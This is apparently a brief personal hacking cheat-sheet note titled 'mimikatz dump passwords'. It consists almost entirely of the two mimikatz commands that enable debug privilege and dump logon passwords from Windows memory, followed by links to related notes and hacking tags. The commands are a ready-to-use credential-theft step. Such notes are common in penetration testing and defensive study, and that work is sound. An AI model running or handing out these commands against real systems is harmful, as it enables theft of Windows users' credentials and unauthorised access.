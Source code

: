 # mimikatz dump passwords
```
privilege::debug
sekurlsa::logonpasswords
```

# Related
- [20221003151089](/zet/20221003151089/README.md) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:
    #assorted #hacking #windows #mimikatz
